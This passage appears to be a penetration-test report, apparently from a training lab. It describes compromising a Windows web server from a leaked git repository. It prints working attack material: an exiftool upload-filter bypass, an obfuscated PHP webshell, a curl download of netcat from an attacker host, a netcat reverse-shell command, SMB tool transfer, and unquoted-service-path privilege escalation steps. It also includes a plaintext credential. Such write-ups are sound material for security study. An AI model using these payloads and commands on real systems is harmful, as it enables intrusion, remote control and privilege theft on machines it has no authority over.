The PC contains a copy of the website. The friend uses this PC to develope and then push the elements to the repository. We used this knowledge to extract the content of the git repository. We use [Git Tools](https://github.com/internetwache/GitTools) to explore the content of the resository. 

With the following script, we could rebuild the commits of the repository:
```
~/git/GitTools/Extractor/extractor.sh . MyRepo
```

There are three commits:


By analyzing those commits, we found a file called *index.php*.  This .php codes gives information about file upload into the website and gives a path where the file is upload. The code checks the following elements about the uploaded file:
- extension: jpg, png, jpeg and gif
- Content of metadata about size of the picture 

## Exploiting the PC
The website behind **10.200.105.100** gave us two paths:
- /upload/: where uploaded files are being saved
- /resources/: takes us to a login page:


With all information that we have gatheres so far, we can assume that the username is either *thomas* or *wreath*. From the previous passwords extracted and documented in this report, we found the following combination:
```
Thomas:i<3ruby
```
Before attempting to upload an malicious code, we wanted to get a Proof of Concept (PoC) that the server is vulnerable. We edited the metadata a file and added a second extension to it:
```
# Original file
teste.png

# Modified
teste.png.php

# added payload in the metadata
exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" test-pat.jpeg.php
```

Usin this methodology, we were able to upload a PoC that the filter can be bypassed:


Once we got the PoC, our next step is to upload a file that will bypass the AV and execute command remotly. We uploaded the following PHP in the metadata of the PNG file:
```
exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" test-path2.png.php
```

After the successfull upload, we can execute commands on the PC:

and


### Creating Reverse Shell on the PC
Since it is possible to execute commands on the **100.200.105.100** using a webshell, we uploaded an executable version ov Netcat, so we can generate a full reverse shell. To upload this executable, we sent the following commands to the webshell:
```
# Curl.exe to make sure that the tool is available on the target system
http://10.200.105.100/resources/uploads/shell-pat.png.php?wreath=curl.exe

# Upload nc.exe
curl http://ATTACKER_IP:8001/nc.exe -o c:\\windows\\temp\\nc-USERNAME.exe

curl http://10.50.106.78/nc64.exe -o c:\\windows\\temp\\nc-pat.exe
```


We sent then the following commands to create a shell:
```
# Listener on the attacking machine
nc -lvnp 47555

# Connecting the target to the attacking machine
powershell.exe c:\\windows\\temp\\nc-pat.exe ATTACKER_IP 47555 -e cmd.exe 
```

net use \\10.50.106.78\share /USER:user 1234567
copy \\10.50.106.78\share\winPEAS.ps1 %TEMP%\winPEAS-pat.ps1

copy \\10.50.106.78\share\winPEAS.bat %TEMP%\winPEAS-pat.bat


net use \\10.50.106.78\\share /del

**Screenshot of uploaded file and reverse shell**

### Escalate privilege on the PC
Differently from the other two hosts, this one is running with a low privilege user. Our task here was to find other vulnerabilities points that allows to escalate to a privileged user.

Running the *whomai /priv* and *whomai /group* gave us no point to escalate our user:




The following command identified the services that are not running on the folder *C:\Windows*:
```
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
```
The service *SystemExplorerHelpService* is unqoted. This create a small attacking service, in case this service is runned with admin privileges:


The next command showed us that the service
```
sc qc SystemExplorerHelpService
```

As shown below, this service is runned with admin rights:


The next step is to find out our permissions on the directory of this service:
```
powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"
```

The screenshot below shows that we have full access to the directory:


To escale privileges, we uploaded a C# executable in the folder where the service *SystemExplorerHelpService* is placed. This executable will create a process to contact the attacking machine creating a reverse shell as admin, since this service starts with administrative privileges.


## Maintaining Access

The steps described in the previous sessions allowed us to maintain access to the compromised services. This result can also be acquired with tools of Command of Control (i.e. empire).

Since we are dealing with productive environment, the possibility and the methods were just described in this report. The actual executation were not performed to avoid any possobile damage on these systems.

## House Cleaning

Once the engagement was concluded, we removed all applications and configurations we applied in the compromised systems.
Since all configuration and tools were described in this document, the process of removing followed the narrative path.